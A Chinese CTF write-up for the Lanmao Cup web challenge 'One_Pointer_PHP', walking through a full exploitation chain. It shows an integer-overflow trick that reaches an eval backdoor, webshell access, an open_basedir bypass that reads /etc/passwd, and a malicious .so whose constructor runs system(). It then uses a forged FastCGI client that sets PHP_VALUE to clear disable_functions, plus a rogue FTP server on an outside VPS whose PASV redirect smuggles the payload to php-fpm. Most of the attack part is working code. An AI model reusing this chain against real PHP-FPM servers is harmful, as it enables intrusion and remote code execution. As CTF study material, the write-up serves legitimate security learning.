深入学习蓝帽杯web一道题

<!-- more -->

质量很高的一道题，详细写下做个总结，深入学习一下知识点

## WEB-One_Pointer_PHP

### 第一层

给了`www.zip`，部分源码，分析一下

```php
<?php
class User{
	public $count;
}

if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
?>
```

反序列化`cookies->data`使其$count[++$user->count]=1;后`$count[]=1`为false即可eval执行命令，伴随应该题目还有更多考点，测试如下。

```php
<?php
class User{
    public $count;
}

$a = new User();
$a->count = 9223372036854775806;

$user=unserialize(serialize($a));
$count[++$user->count]=1;
var_dump($count);

if($count[]=1){
    echo "die";
}else{
    echo "success";
}
?>
```



在 PHP 中，有三种数组类型：

- 索引数组 - 带有数字索引的数组

   `$a = array("1" => "admin", "0" => "gyy");`  // key被双引号包裹

- 关联数组 - 带有指定键的数组

  ```php
  <?php
  $value = 9223372036854775805;
  $a[++$value] = 1;
  $a[++$value] = 1;
  $a[++$value] = 1;
  $a[++$value] = 1;
  
  var_dump($a);
  
  foreach ($a as $key => $value) {
      echo "{$key} => {$value}\r\n";
  }
  
  var_dump($a[$value]==0);
  // 结果如下
  //array(3) {
  //    [9223372036854775806]=>
  //  int(1)
  //  [9223372036854775807]=>
  //  int(1)
  //  [-9223372036854775808]=>
  //  int(1)
  //}
  //9223372036854775806 => 1
  //9223372036854775807 => 1
  //-9223372036854775808 => 1
  //bool(true)
  ?>
  ```

- 多维数组 - 包含一个或多个数组的数组

  俗称套娃

感兴趣的师傅可以自己测试一下，这里只需要`$a->count=9223372036854775806`即long最大值时即可绕过(64位即2^64)

### 获取webshell

直接拿shell进去看看



这里用蚁剑示例，注意header里需要加Cookie为`data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D;`

查看phpinfo，发现有很多disable_function

```
disable_function：stream_socket_client,fsockopen,putenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,iconv,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,error_log,debug_backtrace,debug_print_backtrace,gc_collect_cycles,array_merge_recursive

disable_classes:
Exception,SplDoublyLinkedList,Error,ErrorException,ArgumentCountError,ArithmeticError,AssertionError,DivisionByZeroError,CompileError,ParseError,TypeError,ValueError,UnhandledMatchError,ClosedGeneratorException,LogicException,BadFunctionCallException,BadMethodCallException,DomainException,InvalidArgumentException,LengthException,OutOfRangeException,PharException,ReflectionException,RuntimeException,OutOfBoundsException,OverflowException,PDOException,RangeException,UnderflowException,UnexpectedValueException,JsonException,SodiumException
```

还有open_basedir限制，利用自动化脚本无法突破。由于html目录可写，利用`glob://`协议先探测目录

> glob:// — 查找匹配的文件路径模式

```
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>
```



再利用如下，读取文件

```php
<?php
mkdir('gyy');
chdir('gyy');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
var_dump(file_get_contents("/etc/passwd"));
```

读取php.ini

` /usr/local/etc/php/php.ini`


发现异常.so文件，可能是要加载然后pwn它，实在不会。

### 读取配置文件

```php
<?php
mkdir('gyy');
chdir('gyy');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///etc/nginx/*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>
```

读`/etc/nginx/nginx.conf`，发现有`include /etc/nginx/sites-enabled/*;`

转头读取`/etc/nginx/sites-enabled/default`



发现在9001端口开有FastCGI服务，phpinfo中也表明该项目为FPM/FastCGI，可以通过未授权打FPM rce




### 加载恶意so文件

写.so扩展

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("ls / >/var/www/html/a");
}
```

<small>小插曲：这里发现输出到`/var/www/html/1`发现不行，结果名字换成a就可了，离谱</small>

编译下

```
gcc hpdoger.c -fPIC -shared -o hpdoger.so
```

注意的是用macos和linux编译是不同的，得用linux编译，编译完后上传至`/var/www/html`

### 伪造FastCGI请求PHP-CGI

同样写在html目录

>用户访问`http://127.0.0.1/index.php?a=1&b=2`，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：
>
>> {
>> 'GATEWAY_INTERFACE': 'FastCGI/1.0',
>> 'REQUEST_METHOD': 'GET',
>> 'SCRIPT_FILENAME': '/var/www/html/index.php',
>> 'SCRIPT_NAME': '/index.php',
>> 'QUERY_STRING': '?a=1&b=2',
>> 'REQUEST_URI': '/index.php?a=1&b=2',
>> 'DOCUMENT_ROOT': '/var/www/html',
>> 'SERVER_SOFTWARE': 'php/fcgiclient',
>> 'REMOTE_ADDR': '127.0.0.1',
>> 'REMOTE_PORT': '12345',
>> 'SERVER_ADDR': '127.0.0.1',
>> 'SERVER_PORT': '80',
>> 'SERVER_NAME': "localhost",
>> 'SERVER_PROTOCOL': 'HTTP/1.1'
>> }

- 通过在FastCGI协议修改PHP_VALUE字段进而修改php.ini中的一些设置，而open_basedir 同样可以通过此种方法进行设置。比如：`$php_value = "open_basedir = /";`
- 因为FPM没有判断请求的来源是否必须来自Webserver。根据PHP解析器的流程，我们可以伪造FastCGI向FPM发起请求，PHP_VALUE相当于改变.ini中的设置，覆盖了本身的open_basedir

```php
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;
    /**
     * Socket
     * @var Resource
     */
    private $_sock = null;
    /**
     * Host
     * @var String
     */
    private $_host = null;
    /**
     * Port
     * @var Integer
     */
    private $_port = null;
    /**
     * Keep Alive
     * @var Boolean
     */
    private $_keepAlive = false;
    /**
     * Constructor
     *
     * @param String $host Host of the FastCGI application
     * @param Integer $port Port of the FastCGI application
     */
    public function __construct($host, $port = 9001) // and default value for port, just for unixdomain socket
    {
        $this->_host = $host;
        $this->_port = $port;
    }
    /**
     * Define whether or not the FastCGI application should keep the connection
     * alive at the end of a request
     *
     * @param Boolean $b true if the connection should stay alive, false otherwise
     */
    public function setKeepAlive($b)
    {
        $this->_keepAlive = (boolean)$b;
        if (!$this->_keepAlive && $this->_sock) {
            fclose($this->_sock);
        }
    }
    /**
     * Get the keep alive status
     *
     * @return Boolean true if the connection should stay alive, false otherwise
     */
    public function getKeepAlive()
    {
        return $this->_keepAlive;
    }
    /**
     * Create a connection to the FastCGI application
     */
    private function connect()
    {
        if (!$this->_sock) {
            //$this->_sock = fsockopen($this->_host, $this->_port, $errno, $errstr, 5);
            $this->_sock = stream_socket_client($this->_host, $errno, $errstr, 5);
            if (!$this->_sock) {
                throw new Exception('Unable to connect to FastCGI application');
            }
        }
    }
    /**
     * Build a FastCGI packet
     *
     * @param Integer $type Type of the packet
     * @param String $content Content of the packet
     * @param Integer $requestId RequestId
     */
    private function buildPacket($type, $content, $requestId = 1)
    {
        $clen = strlen($content);
        return chr(self::VERSION_1)         /* version */
            . chr($type)                    /* type */
            . chr(($requestId >> 8) & 0xFF) /* requestIdB1 */
            . chr($requestId & 0xFF)        /* requestIdB0 */
            . chr(($clen >> 8 ) & 0xFF)     /* contentLengthB1 */
            . chr($clen & 0xFF)             /* contentLengthB0 */
            . chr(0)                        /* paddingLength */
            . chr(0)                        /* reserved */
            . $content;                     /* content */
    }
    /**
     * Build an FastCGI Name value pair
     *
     * @param String $name Name
     * @param String $value Value
     * @return String FastCGI Name value pair
     */
    private function buildNvpair($name, $value)
    {
        $nlen = strlen($name);
        $vlen = strlen($value);
        if ($nlen < 128) {
            /* nameLengthB0 */
            $nvpair = chr($nlen);
        } else {
            /* nameLengthB3 & nameLengthB2 & nameLengthB1 & nameLengthB0 */
            $nvpair = chr(($nlen >> 24) | 0x80) . chr(($nlen >> 16) & 0xFF) . chr(($nlen >> 8) & 0xFF) . chr($nlen & 0xFF);
        }
        if ($vlen < 128) {
            /* valueLengthB0 */
            $nvpair .= chr($vlen);
        } else {
            /* valueLengthB3 & valueLengthB2 & valueLengthB1 & valueLengthB0 */
            $nvpair .= chr(($vlen >> 24) | 0x80) . chr(($vlen >> 16) & 0xFF) . chr(($vlen >> 8) & 0xFF) . chr($vlen & 0xFF);
        }
        /* nameData & valueData */
        return $nvpair . $name . $value;
    }
    /**
     * Read a set of FastCGI Name value pairs
     *
     * @param String $data Data containing the set of FastCGI NVPair
     * @return array of NVPair
     */
    private function readNvpair($data, $length = null)
    {
        $array = array();
        if ($length === null) {
            $length = strlen($data);
        }
        $p = 0;
        while ($p != $length) {
            $nlen = ord($data{$p++});
            if ($nlen >= 128) {
                $nlen = ($nlen & 0x7F << 24);
                $nlen |= (ord($data{$p++}) << 16);
                $nlen |= (ord($data{$p++}) << 8);
                $nlen |= (ord($data{$p++}));
            }
            $vlen = ord($data{$p++});
            if ($vlen >= 128) {
                $vlen = ($nlen & 0x7F << 24);
                $vlen |= (ord($data{$p++}) << 16);
                $vlen |= (ord($data{$p++}) << 8);
                $vlen |= (ord($data{$p++}));
            }
            $array[substr($data, $p, $nlen)] = substr($data, $p+$nlen, $vlen);
            $p += ($nlen + $vlen);
        }
        return $array;
    }
    /**
     * Decode a FastCGI Packet
     *
     * @param String $data String containing all the packet
     * @return array
     */
    private function decodePacketHeader($data)
    {
        $ret = array();
        $ret['version']       = ord($data{0});
        $ret['type']          = ord($data{1});
        $ret['requestId']     = (ord($data{2}) << 8) + ord($data{3});
        $ret['contentLength'] = (ord($data{4}) << 8) + ord($data{5});
        $ret['paddingLength'] = ord($data{6});
        $ret['reserved']      = ord($data{7});
        return $ret;
    }
    /**
     * Read a FastCGI Packet
     *
     * @return array
     */
    private function readPacket()
    {
        if ($packet = fread($this->_sock, self::HEADER_LEN)) {
            $resp = $this->decodePacketHeader($packet);
            $resp['content'] = '';
            if ($resp['contentLength']) {
                $len  = $resp['contentLength'];
                while ($len && $buf=fread($this->_sock, $len)) {
                    $len -= strlen($buf);
                    $resp['content'] .= $buf;
                }
            }
            if ($resp['paddingLength']) {
                $buf=fread($this->_sock, $resp['paddingLength']);
            }
            return $resp;
        } else {
            return false;
        }
    }
    /**
     * Get Informations on the FastCGI application
     *
     * @param array $requestedInfo information to retrieve
     * @return array
     */
    public function getValues(array $requestedInfo)
    {
        $this->connect();
        $request = '';
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999/&data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; // php payload -- Doesnt do anything
$php_value = "unserialize_callback_func = system\nextension_dir = /var/www/html\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = "; // extension_dir即为.so文件所在目录
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001', // 找准服务端口
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

访问拿到payload



### 利用 ftp 与 php-fpm 对话 RCE

众所周知，如果可以将任意二进制数据包发送到 php-fpm 服务，则可以执行代码。 此技术通常与 `gopher://` 协议结合使用（ssrf），该协议受 curl 支持，**但不受 php 支持**。

 [php支持的协议和封装协议](https://www.php.net/manual/zh/wrappers.php#wrappers) 可代替发二进制包的协议只有`ftp://` ，况且 ftp 本身也是基于 tcp 的服务，能配合 php-fpm 进行 tcp 通信。

> **ftp 的两种传输模式**
>
> ftp 有两种使用模式：主动模式（port）和被动模式（pasv）。
>
> port 要求客户端和服务器端同时打开并且监听一个端口以创建连接。在这种情况下，客户端由于安装了防火墙会产生一些问题，连接有时候会被客户端的防火墙阻止。所以，创立了 pasv 。pasv 只要求服务器端产生一个监听相应端口的进程，这样就可以绕过客户端安装了防火墙的问题。
>
> ftp 客户端和服务器之间需要建立两条 tcp 连接，一条是控制连接（ 21 端口），用来发送控制指令，另外一条是数据连接（ 20 端口 / 随机端口），真正的文件传输是通过数据连接来完成的。
>
> **两种传输模式的异同**
>
> 对于两种传输模式来说，控制连接的建立过程都是一样，均为服务器监听 21 号端口，客户端向服务器的该端口发起 tcp 连接。
>
> 两种传输模式的不同之处体现在数据连接的建立，对于数据连接的建立，主被动模式的不同在于数据连接的建立“服务器”是“主动”还是”被动”：
>
> port 服务器通过控制连接知道客户端监听的端口后，使用自己的 20 号端口作为源端口，服务器“主动”发起 tcp 数据连接。
>
> pasv 服务器监听 1024-65535 的一个随机端口，并通过控制连接将该端口告诉客户端，客户端向服务器的该端口发起 tcp 数据连接，这种情况下数据连接的建立相当于服务器是“被动”的。
>
> 
>
> 如图，对于我们这题，显然只能用 pasv 模式，服务器监听的“随机端口”对应 php-fpm 监听的 9000 端口，详细过程我们通过一个实际的 pasv 例子来理解：
>
> ```
> testbox1: {/home/p-t/slacker/public_html} % ftp -d testbox2
> Connected to testbox2.slacksite.com.
> 220 testbox2.slacksite.com FTP server ready.
> Name (testbox2:slacker): slacker
> ---> USER slacker
> 331 Password required for slacker.
> Password: TmpPass
> ---> PASS XXXX
> 230 User slacker logged in.
> ---> SYST
> 215 UNIX Type: L8
> Remote system type is UNIX.
> Using binary mode to transfer files.
> ftp> passive
> Passive mode on.
> ftp> ls
> ftp: setsockopt (ignored): Permission denied
> ---> PASV
> 227 Entering Passive Mode (192,168,150,90,195,149).
> ---> LIST
> 150 Opening ASCII mode data connection for file list
> drwx------   3 slacker    users         104 Jul 27 01:45 public_html
> 226 Transfer complete.
> ftp> quit
> ---> QUIT
> 221 Goodbye.
> ```
>
> 以上是客户端 testbox1.slacksite.com (192.168.150.80) 发出 `PASV` 命令以指示其将等待服务器 testbox2.slacksite.com (192.168.150.90) “被动地”提供 ip 和端口号，然后客户端将创建到服务器的数据连接，其中：
>
> ```
> 227 Entering Passive Mode (192,168,150,90,195,149).
> ```
>
> 这就是服务器“被动”返回的 ip 和端口号，分别是 32 位的主机地址和 16 位 tcp 端口地址，这个例子的就是 192.168.150.90 的 195*256 + 149 = 50069 端口。
>
> 选择 ip 地址和端口号后，选择 ip 地址和端口的一方将开始侦听指定的地址/端口，并等待另一方连接。 当对方连接到收听方后，数据传输开始。
>
> 我们这题需要将 ip 端口重定向为 127.0.0.1:9000 来试图 ssrf ，9000 % 256 = 40 ，即可表达为：
>
> ```
> 227 Entering Passive Mode (127,0,0,1,35,40).
> ```

`file_put_contents()` 用 `ftp://` 与我们的恶意服务器建立控制连接，使目标发送 `PASV` 命令，我们“被动”提供 ip 端口至本地 9001端口，然后建立起数据连接，将 data （fastcgi payload）的内容打到FastCGI服务

在`/var/www/html`目录写文件`file.php`

```php
<?php
    $file = $_GET['file'] ?? '/tmp/file';
    $data = $_GET['data'] ?? ':)';
    echo($file."</br>".$data."</br>");
    var_dump(file_put_contents($file, $data));
    // echo file_get_contents($file);
```

准备利用前面生成的payload打

### 起恶意ftp服务

用如下脚本，在公网vps起

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 9999))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2) 注意打到9001端口的服务
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

### 干

干就完事了，访问`file.php`用payload打

`./file.php?file=ftp://vps:9999/&data=xxx`



可以看到dump出来`int(681)`，这里就是打的数据包大小

这时已经突破open_basedir，可以任意访问目录了，同时也执行了恶意.so文件

